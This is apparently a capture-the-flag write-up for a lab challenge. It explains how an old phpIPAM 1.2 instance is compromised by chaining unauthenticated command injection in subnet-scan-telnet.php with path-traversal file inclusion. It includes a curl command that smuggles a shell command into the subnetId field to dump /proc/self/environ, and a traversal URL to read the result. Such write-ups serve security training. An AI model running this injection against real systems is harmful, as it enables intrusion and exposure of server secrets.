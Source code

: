 LORE: Chapter 2: Origins
======================================

## Task
Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

The entry point to LORE is at http://intro.lore.tcc.

## Solution

Opening this part of LORE challenges opens phpipam application. Version 1.2 which as we can check it's pretty old. And it has a large number of security bugs, so much that is hard to pick the right ones :-) My favourites for solving rest of LORE challenges including this one was these:
- /app/subnets/scan/subnet-scan-telnet.php is running shell command without sanitized input. This means that with correct POST data we can run any shell command, even without authentication to phpipam app
- A lot of pages are including php files which are set in GET attribute. If we combine this with previous bug, we can generate any PHP file in /tmp and then show it (and what is even better, execute it as PHP) for example with this URL: http://pimpam.lore.tcc/app/dashboard/widgets/index.php?section=../../../../../../tmp/test

So, we can solve this same way like previous LORE challenge. Run this command to get /proc/self/environ file:

```
curl -v -XPOST http://pimpam.lore.tcc/app/subnets/scan/subnet-scan-telnet.php -d port=22 -d subnetId="; cat /proc/self/environ > /tmp/test.php"
```

and open in browser this link: http://pimpam.lore.tcc/app/dashboard/widgets/index.php?section=../../../../../../tmp/test

And we can see flag: FLAG=FLAG{V51j-9ETA-Swya-8cOR}
